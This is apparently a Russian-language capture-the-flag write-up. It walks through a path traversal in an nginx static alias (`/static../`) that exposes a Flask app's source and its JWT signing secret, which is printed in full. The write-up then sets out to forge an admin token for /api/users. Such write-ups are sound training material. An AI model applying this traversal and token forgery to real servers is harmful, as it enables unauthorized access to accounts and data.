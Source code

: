 Изучая сайт нету ничего интересного, кроме jwt токена в сессии, в котором есть поле role, но сломать токен не получилось.
Атаки на алгоритм шифрования тоже ничего не дали. Определять валидность токена можно, отправляя запросы на **/login**, если происходит редирект, значит токен рабочий.

```
{
  "public_id": "a1d7dbd4-7a0c-4db7-9e10-904e90492b2d",
  "username": "test2",
  "role": "user",
  "exp": 1682852626
}
```

Так же на сайте есть директория static, сам сайт находится на сервере nginx, а подсказка с исходниками намекнула на path traversal.

Попробуем применить ее на разные файлы и сработало `http://45.131.97.54:1559/static../__init__.py`, полулось скачать файл.

В файле видим secret key для подписи jwt `app.config['SECRET_KEY'] = 'dont-forget-to-change-it-P5ydem2JfMpp'` и следующий файл, который можно посмотреть.  `from app import views`.

Скачиваем views.py `http://45.131.97.54:1559/static../views.py`

Видим, что при создании сайта был создан user admin, и в заметках содержится флаг

```
user = User()
        user.username = 'admin'
        user.password = generate_password_hash(
                getenv('PASSWORD'),
                method='sha256'
            )
        user.role = 'admin'
        user.public_id = str(uuid.uuid4())
        user.note = getenv('FLAG')
```

И видим api, которое доступно только для админов.

```
@app.route('/api/users')
@token_required
def users():
    user = decode_jwt(request.cookies['token'])
    result = {}
    status = 401

    if user['role'] == 'admin':
      ..........
  ```

Сгенерируем токен для админа, используя полученный секрет, и перейдем на /api/users
